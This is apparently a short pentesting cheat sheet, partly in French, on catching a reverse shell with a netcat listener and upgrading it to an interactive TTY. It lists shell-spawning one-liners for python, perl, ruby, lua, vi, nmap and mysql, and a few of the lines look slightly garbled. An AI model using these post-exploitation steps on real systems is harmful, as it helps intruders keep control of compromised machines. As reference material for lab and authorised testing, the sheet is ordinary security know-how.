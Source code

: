 # Spawn a TTY


On Kali:
1) sh
2) nc -lvnp 4444

start reverse shell

1) run command
2) Ctrl+z
3) stty -a | head -n1
4) stty raw -echo; fg<enter><enter>

et donc dans le shell:
export HOME=/root
export SHELL=/bin/bash
export TERM=xterm-256color
stty rows 24 columns 80



python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
python2 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'

perl: exec "/bin/sh";

ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')

From within IRB:
exec "/bin/sh"

From within vi:
:!bash

From within vi2:
:set shell=/bin/bash:shell

From within nmap:
!sh

mysql: ! bash

## from other info
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/